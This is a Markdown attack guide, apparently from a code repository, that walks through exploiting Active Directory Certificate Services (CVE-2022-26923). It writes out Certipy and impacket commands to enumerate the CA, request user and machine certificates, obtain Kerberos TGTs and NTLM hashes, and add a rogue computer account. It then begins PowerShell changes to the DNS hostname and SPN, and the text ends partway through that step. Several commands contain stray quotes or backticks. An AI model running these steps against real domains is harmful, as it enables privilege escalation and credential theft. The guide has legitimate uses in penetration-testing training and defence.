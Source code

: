 # Active Directory Certificate Services (ADCS) CVE-2022-26923

This attack relies on ADCS being available within the internal active directory network you are attempting to compromise. Furthermore, a low privieged domain user account will be required for the steps in the attack path.

With the low privileged user credentials, search for the ADCS server within the active directory domain. This can be done by running `certutil.exe` within Microsoft Windows, or by using `Certipy.py`, which is available from https://github.com/ly4k/Certipy. Certipy requires Python 3 and also impacket to be installed. If this attack is ran from a Kali Linux machine attached to the network, the dependencies should come preinstalled.

*Note that ADCS does not have to be running on the domain controller, and quite often it will be ran on its own server instance*

Use certipy to discover the details of the ADCS server within the domain. The following command will list the details of the Certificate Authority "CA" within the AD environment, along with what certificate templates are available:

```shell
certipy.py find 'domain.local/username:password@dc1.adcs-server.domain.local'
```

Now a certificate can be generated for the current user using Certipy and the "User" template. This will then download a ".pfx" certificate file. The name of the CA can be found from the output of the `Certipy.py find` command or `certutil.exe`

```shell
certipy.py req 'domain.local/username:password@dc1.adcs-server.domain.local' -ca "Name Of CA" -template user
```

Now a TGT can be obtained for the user using Certipy. The following command will generate a CCACHE file containing a Kerberos TGT for the user "username". THe command will output the CCACHE file, along with the NTLM hash for the user.

```shell
certipy.py auth -pfx username.pfx
```

Now impacket can be used to add a new computer object to the active directory domain. In a default active directory configuration, a standard user can add up to 10 machine accounts. Providing the user can add a machine account to the domain, `addcomputer.py` can be used:

```shell
addcomputer.py 'domain.local/username:password' -method LDAPS -computer-name NEW-PC -computer-password Password123!`
```

Now with the new computer added to the domain, a machine certificate can be requested from the ADCS server:

```shell
certipy.py req 'domain.local/NEW-PC$:Password123!@dc1.adcs-server.domain.local' -ca "Name Of CA" -template Machine'
```

The certificate will download as a ".pfx" file with the `NEW-PC.pfx`. Now a TGT can be created for the machine account, which will output a CCACHE file:

```shell
certipy auth -pfx NEW-PC.pfx
```

On a Windows host on the target environment, the following commands can now be ran in powershell to make modifications to the DNS hostname. First look at the dnshostname and service princlpal name:

```powershell
Get-ADComputer NEW-PC -properties dnshostname,serviceprincipalname
```

First, delete the serviceprincipalname using the following powershell command:

```powershell
Set-ADComputer NEW-PC @{}
```
